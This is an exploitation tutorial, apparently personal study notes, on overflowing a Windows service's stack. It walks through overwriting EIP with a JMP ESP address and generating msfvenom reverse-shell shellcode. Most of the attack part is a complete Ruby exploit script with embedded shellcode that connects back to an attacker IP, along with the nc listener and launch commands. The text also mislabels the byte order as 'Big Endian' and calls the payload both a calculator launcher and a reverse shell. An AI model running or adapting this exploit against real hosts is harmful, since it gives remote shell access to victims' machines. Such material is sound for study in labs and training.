







script Ruby: Overwrite the EIP & Execute the Shellcode

{kind=link}
Check also the chapter for the Local Systems: Overwrite the EIP
Immunity Debugger: To find JMP ESP (or CALL ESP) in the application we can simply disassemble it(with Immunity Debugger or IDA) and then search for the instruction in all the modules and libraries loaded by the program we have to select Search for → All Commands in all modules
To do that first load and start the service, after is waiting for a connection search JMP ESP.

copy an address that point to JMP/CALL command to a kernel module(kernel32.dll or kernelbase.dll) and add it to the payload in hexadecimal and in a swapped order(Big Endian)
example: the address 75365CE5 must be written as \xE5\x5C\x36\x75
Preamble
The Preamble are the Junk Bytes needed to reach the EIP.
We have seen, in the chapter before Find the Right Offset, that the length of this Preamble is 44. This mean we can insert 44 times NOP(\x90)
preamble = 44*"\x90"
because as address for the JMP/CALL to the ESP we have taken 75365CE5, write it i Big Endian
return_address = "\xE5\x5C\x36\x75"After the return address(EIP), there is space allocated for the arguments passed to call the function. We need to insert enough NOPs(we do not need to know the exact space) to overwrite it before the real malicious payload.
arguments_nop = 10*"\x90"
Generate Shellcode
Review the chapter Shellcoding and in particular Automate creation of a shellcode
msfvenom is a combination of the old msfpayload and msfencode, putting both of these tools into a single Framework
◇ msfpayload → generate the malicious payload
◇ msfencode → encode the payload in order to avoid bad characters
1. List available payloads:
msfvenom --list payloads2. Show options for a payload
msfvenom -p <name_of_the_msfvenom_payload> --list-options
Shellcode reverse shell
msfvenom --list payloadsIn this example we will use windows/shell_reverse_tcp that connect back to attacker and spawn a command shell
msfvenom -p windows/shell_reverse_tcp --list-options

msfvenom -p windows/shell_reverse_tcp RHOST=192.168.3.136 LPORT=4444 -a x86 --platform Windows -b '\x00' --format ruby
-b ‘\x00’ → Since the vulnerability is caused by a strcpy in a C++ application, we must avoid the '\x00' character (end of line); this is because strcpy will stop the copy if it encounters these bytes.

Final Payload
Run Calculator on the victim
#bufferOverflowServer.rb
preamble = "\x90" * 44
return_address = "\xE5\x5C\x36\x75"
arguments_nop = "\x90" * 10
buf =
"\xba\xd1\xaa\x60\xa3\xd9\xc4\xd9\x74\x24\xf4\x5d\x2b\xc9" +
"\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\x84\xa4\x82\x56\xda" +
"\x51\xc0\x99\x22\xa2\xa5\x10\xc7\x93\xe5\x47\x8c\x84\xd5" +
"\x0c\xc0\x28\x9d\x41\xf0\xbb\xd3\x4d\xf7\x0c\x59\xa8\x36" +
"\x8c\xf2\x88\x59\x0e\x09\xdd\xb9\x2f\xc2\x10\xb8\x68\x3f" +
"\xd8\xe8\x21\x4b\x4f\x1c\x45\x01\x4c\x97\x15\x87\xd4\x44" +
"\xed\xa6\xf5\xdb\x65\xf1\xd5\xda\xaa\x89\x5f\xc4\xaf\xb4" +
"\x16\x7f\x1b\x42\xa9\xa9\x55\xab\x06\x94\x59\x5e\x56\xd1" +
"\x5e\x81\x2d\x2b\x9d\x3c\x36\xe8\xdf\x9a\xb3\xea\x78\x68" +
"\x63\xd6\x79\xbd\xf2\x9d\x76\x0a\x70\xf9\x9a\x8d\x55\x72" +
"\xa6\x06\x58\x54\x2e\x5c\x7f\x70\x6a\x06\x1e\x21\xd6\xe9" +
"\x1f\x31\xb9\x56\xba\x3a\x54\x82\xb7\x61\x31\x67\xfa\x99" +
"\xc1\xef\x8d\xea\xf3\xb0\x25\x64\xb8\x39\xe0\x73\xbf\x13" +
"\x54\xeb\x3e\x9c\xa5\x22\x85\xc8\xf5\x5c\x2c\x71\x9e\x9c" +
"\xd1\xa4\x31\xcc\x7d\x17\xf2\xbc\x3d\xc7\x9a\xd6\xb1\x38" +
"\xba\xd9\x1b\x51\x51\x20\xcc\x9e\x0e\x29\x84\x77\x4d\x2d" +
"\x85\xdb\xd8\xcb\xcf\xf3\x8c\x44\x78\x6d\x95\x1e\x19\x72" +
"\x03\x5b\x19\xf8\xa0\x9c\xd4\x09\xcc\x8e\x81\xf9\x9b\xec" +
"\x04\x05\x36\x98\xcb\x94\xdd\x58\x85\x84\x49\x0f\xc2\x7b" +
"\x80\xc5\xfe\x22\x3a\xfb\x02\xb2\x05\xbf\xd8\x07\x8b\x3e" +
"\xac\x3c\xaf\x50\x68\xbc\xeb\x04\x24\xeb\xa5\xf2\x82\x45" +
"\x04\xac\x5c\x39\xce\x38\x18\x71\xd1\x3e\x25\x5c\xa7\xde" +
"\x94\x09\xfe\xe1\x19\xde\xf6\x9a\x47\x7e\xf8\x71\xcc\x8e" +
"\xb3\xdb\x65\x07\x1a\x8e\x37\x4a\x9d\x65\x7b\x73\x1e\x8f" +
"\x04\x80\x3e\xfa\x01\xcc\xf8\x17\x78\x5d\x6d\x17\x2f\x5e" +
"\xa4"
exploit= preamble + return_address + arguments_nop + buf
host,port= ARGV[0], ARGV[1]
require 'socket'
TCPSocket.open(host,port) {|s| s.puts exploit}
Attacker:
1. Listen for the target
nc -nvlp 4444

2. The IpAddress and port are the one of the Service on the Target machine
ruby bufferOverflowServer.rb 192.168.3.133 7707

Target/Server machine:


The service connected back to our listener on the target. The exploit works